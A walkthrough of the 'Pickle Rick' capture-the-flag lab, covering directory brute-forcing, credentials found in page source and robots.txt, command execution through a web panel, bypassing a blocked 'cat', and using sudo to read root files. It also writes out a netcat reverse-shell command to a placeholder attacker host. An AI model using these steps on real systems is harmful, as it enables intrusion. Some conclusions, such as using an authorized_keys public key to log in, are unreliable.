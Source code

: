 # Pickle Rick

Ran nmap to find open ports on the server machine

Nmap results:
22/tcp (SSH)
80/tcp (HTTP) Apache server on Ubuntu

SSH server can be logged into to gain root access

Run gobuster dir to find directories in the web server, using (dirbuster/directory-list-2.3-medium.txt)

Gobuster results:
/assets (301)
/server-status (403) (Forbidden access)

'server-status' will be useful to access

Searched assets, found nothing useful

Inspect page and view page source:
Username: R1ckRul3s

There is somewhere on this server that can be logged into to potentially access 'server-status'

Attempted to login to SSH with 'R1ckRul3s', permission denied due to public key. Means that 'R1ckRul3s' could be a valid SSH user

Ran gobuster again using different wordlist (dirb/common.txt)
New useful results:

/robots.txt

Went to robots.txt and found 'Wubbalubbadubdub', potential password to 'R1ckRul3s', but cannot log in because of public key authentication

Did final gobuster scan, this time including file extensions for php, txt, conf, and html to find hidden pages, found /login.php, which has username and password.

Entered 'R1ckRul3s' as username, and 'Wubbalubbadubdub' as password, successfully logged in and is redirected to commands page. Attempting to click the other pages in the nav bar is denied as only the real rick can access these pages, meaning there is another user within this web server

Viewing the page source leads to a comment which looks base 64 encoded:
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

Decoding it with base64 binary leads to another base64 string, and then decoding the next string leads to another base64 string. After repeating the steps multiple times, leads to the string 'rabbit hole'

Entered 'whoami' into command, and it returned 'www-data', meaning the web server is vulnerable to remote code execution, and potentially reverse shells

Setup a netcat listener on attacker machine and ran 'nc attacker_ip attacker_port -e /bin/bash. Doesn't work, however omitting the -e argument does show a netcat connection being made, meaning that reverse shells don't work

Wrote 'ls' to check current directory, and found 'Sup3rS3cretPickl3Ingred.txt' which should have the first flag. Using 'cat Sup3rS3cretPickl3Ingred.txt' gives 'command disabled', meaning that cat cannot be used. However using 'less' instead of cat returns the contents of the file, that being the first flag:

mr. meeseek hair

The second useful file is 'clue.txt' which reads:

Look around the file system for the other ingredient.

This means traversing outside the /var/www/html directory for the commands are being executed from

Typing 'cat /etc/passwd' reveals only one created user, that being 'ubuntu'. This user can be used to login to the server via SSH

Typing 'ls ../../../home' reveals a 'rick' directory, and an 'ubuntu' directory, and within it, is 'second ingredients' file

Typing "less ../../../home/rick/'second ingredients'" gives the second flag:

1 jerry tear

After this, the next step will be to try and login to the server machine via SSH using the 'ubuntu' user. Since the server only allows SSH authentication, the next possible step is to inspect the 'ubuntu' user's .ssh directory.

The 'ubuntu' directory does contain a '.ssh' directory, however it cannot be read to by other users, so the key cannot be accessed by the command panel.

Could login as the rick user within the website and use the second ingredients as a password. Resetting the cookies allows me to go back to the login page.

None of the flags work, so will do a nikto scan to find any potential vulnerabilities that can be exploited on the server

Use 'sudo -l' to check the commands the user can use. Can run sudo for any command without password

Get saved key in authorized_keys in ubuntu user's .ssh directory with 'sudo less ../../../home/ubuntu/.ssh/authorized_keys'. Got:

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCMLOT6NhiqH5Rp36qJt4jZwfvb/H/+YLRTrx5mS9dSyxumP8+chjxkSNOrdgNtZ6XoaDDDikslQvKMCqoJqHqp4jh9xTQTj29tagUaZmR0gUwatEJPG0SfqNvNExgsTtu2DW3SxCQYwrMtu9S4myr+4x+rwQ739SrPLMdBmughB13uC/3DCsE4aRvWL7p+McehGGkqvyAfhux/9SNgnIKayozWMPhADhpYlAomGnTtd8Cn+O1IlZmvqz5kJDYmnlKppKW2mgtAVeejNXGC7TQRkH6athI5Wzek9PXiFVu6IZsJePo+y8+n2zhOXM2mHx01QyvK2WZuQCvLpWKW92eF amiOpenVPN

Create a key file for stored key and now SSH into the server as 'ubuntu' using the key file. Given this error:

Permissions 0644 for 'id_rsa' are too open.

Creating an 'ubuntu' user and changing the ownership of the key to ubuntu

Can ls root user using 'sudo ls /root' to find '3rd.txt'. And when read with 'sudo less /root/3rd.txt' the third flag is displayed:

fleeb juice